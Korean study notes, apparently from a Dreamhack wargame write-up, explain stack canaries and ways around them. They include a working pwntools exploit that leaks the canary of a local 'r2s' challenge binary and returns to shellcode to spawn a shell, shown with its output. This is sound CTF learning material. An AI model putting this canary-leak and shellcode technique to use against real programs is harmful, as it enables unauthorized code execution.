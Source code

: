 스택 버퍼 오버플로우를 막는것은 까나리

# **카나리**

함수 시작 시 스택 버퍼와 Return Address 사이에 랜덤 값을 삽입한 후 함수 종료 시 해당 랜덤 값의 변조 여부를 확인하여 메모리 오염 여부를 확인하는 보호 기법입니다.

# **카나리 생성**

`security_init`함수에서 TLS에 랜덤 값으로 카나리를 설정하면, 매 함수에서 이를 참조하여 사용합니다.

# **카나리 우회 기법**

- 무차별 대입 공격(Brute Force Attack):
    
    무차별 대입으로 카나리 값을 구하는 방법. 현실적으로 불가능에 가깝습니다.
    
- TLS 접근:
    
    카나리는 TLS에 전역 변수로 저장되므로, 이 값을 읽거나 조작할 수 있으면 카나리를 우회할 수 있습니다.
    
- 스택 카나리 릭:
    
    함수의 프롤로그에서 스택에 카나리 값을 저장하므로, 이를 읽어낼 수 있으면 카나리를 우회할 수 있습니다. 가장 현실적인 카나리 우회 기법입니다.
    
    fs 0x28 리눅스에서 canary 저장주소
    
    보호기법을 파악할 때 주로 사용하는 툴이 **checksec**입니다. **pwntools**를 설치할 때 같이 설치되어 `~/.local/bin/checksec`에 위치합니다. **checksec**을 사용하면 간단한 커맨드 하나로 바이너리에 적용된 보호기법들을 파악할 수 있습니다.
    
    $ checksec ./r2s
    [*] '/home/dreamhack/r2s'
    
    Arch:     amd64-64-little
    
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    
    pwntools 스크립트
    
    #!/usr/bin/env python3
    
    # Name: [r2s.py](http://r2s.py/)
    
    from pwn import *
    
    def slog(n, m): return success(': '.join([n, hex(m)]))
    
    p = process('./r2s')
    
    context.arch = 'amd64'
    
    # [1] Get information about buf
    
    p.recvuntil(b'buf: ')
    buf = int(p.recvline()[:-1], 16)
    slog('Address of buf', buf)
    
    p.recvuntil(b'$rbp: ')
    buf2sfp = int(p.recvline().split()[0])
    buf2cnry = buf2sfp - 8
    slog('buf <=> sfp', buf2sfp)
    slog('buf <=> canary', buf2cnry)
    

```python
#!/usr/bin/env python3
# Name: r2s.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

# [1] Get information about buf
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)
```

**Stackframe**

!https://dreamhack-lecture.s3.amazonaws.com/media/8d0256dde2a27f1bbaaec142f8023719799b5e90bd4ee193f660be863bdb9e43.png

> $ python3 ./r2s.py
[+] Starting local process './r2s': pid 8564
[+] Address of buf: 0x7ffe58a8d740
[+] buf <=> sfp: 0x60
[+] buf <=> canary: 0x58
[+] Canary: 0x40e736d41cd76400
> 

# [2] Leak canary value

payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)

|  | $ python3 ./r2s.py |
| --- | --- |
|  | [+] Starting local process './r2s': pid 8593 |
|  | [+] Address of buf: 0x7ffc323acb00 |
|  | [+] buf <=> sfp: 0x60 |
|  | [+] buf <=> canary: 0x58 |
|  | [+] Canary: 0x6955522676848000 |
|  | [*] Switching to interactive mode |
|  | $ id |
|  | uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack) ... |

# [3] Exploit

sh = asm([shellcraft.sh](http://shellcraft.sh/)())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)

gets() receives input until '\n' is received

p.sendlineafter(b'Input:', payload)

p.interactive()

```python
#!/usr/bin/env python3
# Name: r2s.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

# [1] Get information about buf
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)

# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)

# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```

정리

1. rbp - 0x8 까지 아무 값이나 넣어 buf를 출력할 때 canary 값을 같이 출력

2. 알아낸 canary 값을 토대로 payload 작성

3. payload = shellcode(0x30바이트임) + 아무 값 * 0x28 + canary + 아무 값 * 0x8 + buf의 주소

![ReturnToShellcode.jpg](https://github.com/JoWoonJi/Dreamhack_Wargame/blob/main/SystemHacking/img/ReturnToShellcode.jpg)

DH 획득
